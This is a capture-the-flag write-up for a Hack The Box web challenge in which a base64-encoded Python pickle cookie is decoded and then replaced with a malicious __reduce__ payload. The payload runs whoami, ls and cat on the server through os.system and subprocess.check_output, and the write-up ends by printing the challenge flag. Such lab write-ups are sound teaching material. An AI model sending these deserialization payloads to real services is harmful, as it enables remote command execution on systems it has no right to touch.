 # Baby Website Rick

## Analysis

![](<../../.gitbook/assets/image (6).png>)

All the references to **pickles** implies it's an **insecure deserialization** challenge. [`pickle`](https://docs.python.org/3/library/pickle.html) is a serialization format used in python.

If we check the cookies, we get the following:

```
plan_b=KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu
```

Our guess is that this is a pickled python object, and decoding the base64 seems to imply that to us too:

```
$ echo 'KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu' | base64 -d
(dp0
S'serum'
p1
ccopy_reg
_reconstructor
p2
(c__main__
anti_pickle_serum
p3
c__builtin__
object
p4
Ntp5
Rp6
s.
```

## Unpickling

Let's immediately try to unpickle the data, which should give us a feel for how data is parsed:

```python
from base64 import b64decode

import pickle

code = b'KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu'

serum = pickle.loads(b64decode(code))
print(serum)
```

```
$ python3 deserialize.py 
Traceback (most recent call last):
  File "deserialize.py", line 7, in <module>
    serum = pickle.loads(b64decode(code))
AttributeError: Can't get attribute 'anti_pickle_serum' on <module '__main__' from 'deserialize.py'>
```

The error is quite clear - there's no `anti_pickle_serum` variable. Let's add one in and try again.

```python
code = b'KGRwMApT[...]'
anti_pickle_serum = 'test'
```

That error is fixed, but there's another one:

```
$ python3 deserialize.py 
Traceback (most recent call last):
  File "deserialize.py", line 8, in <module>
    serum = pickle.loads(b64decode(code))
  File "/usr/lib/python3.8/copyreg.py", line 43, in _reconstructor
    obj = object.__new__(cls)
TypeError: object.__new__(X): X is not a type object (str)
```

Here it's throwing an error because X (`anti_pickle_serum`) **is not a type object** - so let's make it a class extending from `object`!

```python
# [imports]
class anti_pickle_serum(object):
    def __init__(self):
        pass
# [...]
```

And now there's no error, and we get a response!

```
$ python3 deserialize.py 
{'serum': <__main__.anti_pickle_serum object at 0x7f9e1a1b1c40>}
```

So the cookie is the pickled form of a dictionary with the key `serum` and the value of an `anti_pickle_serum` class! Awesome.

## Exploitation

For an introduction to pickle exploitation, I highly recommend [this blog post](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). Essentially, the `__reduce__` dunder method tells pickle how to deserialize, and to do so it takes a **function** and a **list of parameters**. We can set the function to `os.system` and the parameters to the code to execute!

```python
from base64 import b64encode

import pickle
import os

class anti_pickle_serum(object):
    def __reduce__(self):               # function called by the pickler
        return os.system, (['whoami'],)

code = pickle.dumps({'serum': anti_pickle_serum()})
code = b64encode(code)
print(code)
```

Here we create the malicious class, then serialize it as part of the dictionary as we saw before.

```
$ python3 final.py 
b'gASVLAAAAAAAAAB9lIwFc2VydW2UjAVwb3NpeJSMBnN5c3RlbZSTlIwGd2hvYW1plIWUUpRzLg=='
```

Huh, that looks nothing like the original cookie value (which starts with `KGRwMApTJ3`)... maybe we missed something with the `dumps`?

Checking out the [`dumps()`](https://docs.python.org/3/library/pickle.html#pickle.dumps) documentation, there is a `protocol` parameter! If we [read a bit deeper](https://docs.python.org/3/library/pickle.html#data-stream-format), this can take a value from `0` to `5`. If we play around, `protocol=0` looks similar to the original cookie:

```python
code = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)
```

```
$ python3 final.py 
b'KGRwMApWc2VydW0KcDEKY3Bvc2l4CnN5c3RlbQpwMgooVndob2FtaQpwMwp0cDQKUnA1CnMu'
```

Let's change the cookie to this (without the `b''`):

![](<../../.gitbook/assets/image (15).png>)

As you can see now, the value `0` was returned. This is the return value of `os.system`! Now we simply need to find a function that returns the result, and we'll use `subprocess.check_output` for that.

{% hint style="danger" %}
For reasons unknown to me, python3 pickles this differently to python2 and doesn't work. I'll therefore be using python2 from now on, but if anybody know why that would happen, please let me know!
{% endhint %}

```python
return subprocess.check_output, (['ls'],)
```

Now run it

```
$ python final.py 
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydscycKcDQKYXRwNQpScDYKcy4=
```

And input it as the cookie.

![](<../../.gitbook/assets/image (43).png>)

As can now see that there is a `flag_wIp1b` file, so we can just read it!

While it's tempting to do

```python
return subprocess.check_output, (['cat flag_wIp1b'],)
```

`subprocess.check_output` requires a **list** of parameters (as we see here) and the filename is a separate item in the list, like so:

```python
return subprocess.check_output, (['cat', 'flag_wIp1b'],)
```

```
$ python final.py 
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydjYXQnCnA0CmFTJ2ZsYWdfd0lwMWInCnA1CmF0cDYKUnA3CnMu
```

And boom - we get the flag!

![](<../../.gitbook/assets/image (33).png>)

`HTB{g00d_j0b_m0rty...n0w_I_h4v3_to_g0_to_f4m1ly_th3r4py..}`
